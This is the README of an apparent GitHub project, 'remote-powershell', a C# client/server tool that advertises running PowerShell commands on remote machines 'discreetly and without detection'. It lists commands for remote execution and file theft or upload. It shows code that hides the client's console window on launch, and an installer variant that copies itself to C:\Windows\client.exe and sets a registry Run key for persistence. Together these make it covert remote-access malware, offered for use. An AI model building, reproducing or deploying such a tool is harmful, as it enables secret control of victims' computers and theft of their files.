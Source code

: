 # remote-powershell

This is a terminal-based application that enables you to execute PowerShell commands on a remote client discreetly and without detection.

The application is divided into two main sections: client and server. And there are also special versions of sections that have additional functionality. Each of the sections and versions is briefly described below, as well as a short guide on how to set them up.

## server 

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/src/server)

The server folder contains all the files related to the part of the program that should be executed on the device from which the commands will be sent.

Just change the IP and Port to the one you need and run the program while waiting for connections.

```csharp
protected static string ipAddress = "127.0.0.1"; // Change 127.0.0.1 (IP) to the one you need
protected static int port = 8802;                // Change 8802 (Port) to the one you need      
```

| Command           | Description                                                                  | Syntax                        | Aliases    |
| ----------------- | ---------------------------------------------------------------------------- | ----------------------------- | ---------- |
| help              | Shows a list of all available commands                                       | help                          | ?          |
| execute           | Sends and executes the command you specified on the remote client's computer | execute [client-id] [command] | exec, !    |
| download          | Downloads the file you specified from a remote client's computer             | download [client-id] [path]   | dload, +   |
| upload            | Uploads the file you specified to a remote client's computer                 | upload [client-id] [path]     | uload, =   |
| connection-list   | Gives a list of all active remote connections                                | connection-list               | con-list   |
| connection-remove | Forcibly disconnects the specified remote client from the server             | connection-remove [client-id] | con-remove |
| clear             | Clears the terminal                                                          | clear                         | clr        |
| quit              | Closes the application                                                       | quit                          | exit       |

Despite the fact that the disconnect command forcibly disconnects the remote client from the server, the automatic reconnection function in the client can still restore connections after a while.

You can change the path where files uploaded from the client to the server will be saved, as shown below.

```csharp
public async Task RecieveFileAsync(string path)
{
    ...
    // Replace the savePath string with the path where the files will be saved from the client
    string savePath = $@"C:\Users\{Environment.UserName}\Downloads\{Path.GetFileNameWithoutExtension(path)}_(recieved){Path.GetExtension(path)}";
    ...
}
```

Use the code below to get the original file name and extension.

```csharp
{Path.GetFileNameWithoutExtension(path)}/*Suffix to file name (Optional)*/{Path.GetExtension(path)}
```

## client

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/src/client)

The client folder contains all the files related to the part of the program that should be executed on the device to which the commands will be sent and executed.

Just change the IP and Port to the ones you installed on the server and run the program on another device.

```csharp
string host = "127.0.0.1"; // Change 127.0.0.1 (IP) to the one you need
int port = 8802;           // Change 8802 (Port) to the one you need
```

If you don't want the application to be automatically hidden after launch, delete the code shown below.

```csharp
[DllImport("user32.dll")]
static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

[DllImport("kernel32.dll")]
static extern IntPtr GetConsoleWindow();

const int SW_HIDE = 0;
const int SW_SHOW = 5;

var handle = GetConsoleWindow();
ShowWindow(handle, SW_HIDE);
```

You can also delete only the last line shown, this will also make the app visible after launch.

You can change the path where files uploaded to the client from the server will be saved as shown below.

```csharp
async Task RecieveFileAsync(string path)
{
    ...
    // Replace savePath string with the path where the files will be saved on the client
    string savePath = $@"C:\Users\{Environment.UserName}\Downloads\{Path.GetFileNameWithoutExtension(path)}_(upload-func){Path.GetExtension(path)}";
    ...
}
```

Use the code below to get the original file name and extension.

```csharp
{Path.GetFileNameWithoutExtension(path)}/*Suffix to file name (Optional)*/{Path.GetExtension(path)}
```

Please note that if you use services that will help you expand your local network, such as ngrok, then you may have problems reconnecting the client to the server after it is turned off, since the connection for the client will remain active.

## client-and-installer

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/src/client-and-installer)

Client-and-installer is a version of the application that, when launched, automatically installs the client on a remote computer and adds it to Windows Startup.

```csharp
// Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
if (Environment.ProcessPath != @"C:\Windows\client.exe")
{
    // Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
    string path = @"C:\Windows\client.exe";
    ...
}
```

Сlient-and-installer automatically adds the application to Windows startup, if you want to remove it, then go to the Program.cs file in the client-and-installer folder and remove all lines from 15th to 17th.

```csharp
// Autorun code
RegistryKey registry;
registry = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\", true);
registry.SetValue("client", @"C:\Windows\client.exe");
```